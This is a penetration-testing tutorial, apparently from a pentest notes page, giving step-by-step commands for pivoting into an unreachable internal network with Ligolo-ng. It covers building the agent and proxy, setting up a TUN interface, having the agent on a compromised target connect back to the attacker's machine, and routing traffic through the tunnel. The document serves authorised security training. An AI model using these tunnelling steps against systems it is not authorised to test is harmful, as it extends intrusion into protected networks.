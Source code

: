 1.  Run `ifconfig` and look for extra interfaces, in this example, we find `ens224`, which connects to a network our current machine can't reach directly.  
    
    ![](../../../img/Linux-Environment/13.png)
    
2.  To ensure that the `ens224` network is accessible from our attack host, we need to set up Ligolo-ng. If it's not already installed, clone the repository with the following command:
    `git clone https://github.com/nicocha30/ligolo-ng.git`  
    
    ![](../../../img/Linux-Environment/14.png)
    
3.  Navigate to the ligolo-ng directory and compile the binary agent and proxy using the command:   
    `cd ligolo-ng && go build -o agent cmd/agent/main.go && go build -o proxy cmd/proxy/main.go`  
    
    ![](../../../img/Linux-Environment/15.png)
    
4.  Alternatively, if you prefer not to build the binary yourself, you can download a [pre-built](https://github.com/nicocha30/ligolo-ng/releases/tag/v0.7.2-alpha) version.  
    
    ![](../../../img/Linux-Environment/16.png)
    
5.  Create a new TUN interface with the following commands:
    `ip tuntap add user root mode tun ligolo && ip link set ligolo up`  
    
    ![](../../../img/Linux-Environment/17.png)
    
6.  There are several methods to transfer the agent from your attacker machine to the target. Refer to the File Transfer section for more details.
    
    ![](../../../img/Linux-Environment/18.png)
    
7.  On your attacker machine, from the directory where the proxy file was built, run:
    `./proxy -selfcert` OR `./proxy -autocert`  
    
    ![](../../../img/Linux-Environment/19.png)
    
8. Use the agent to establish a connection back to your attacker machine with the following command:  
 	`./agent -connect IP:11601 -ignore-cert`
    
    ![](../../../img/Linux-Environment/20.png)
    
9.  From the Ligolo-ng terminal window, run `session`, followed by `start `to initiate the session.
    
    ![](../../../img/Linux-Environment/21.png)
    
10. To route traffic through the Ligolo-ng tunnel, add a new route with the following command:
    `ip route add 172.16.4.0/23 dev ligolo && ip route`  
    
    ![](../../../img/Linux-Environment/22.png)
    
11. Finally, confirm that pivoting is working by successfully pinging a machine on the second network.
    
    ![](../../../img/Linux-Environment/23.png)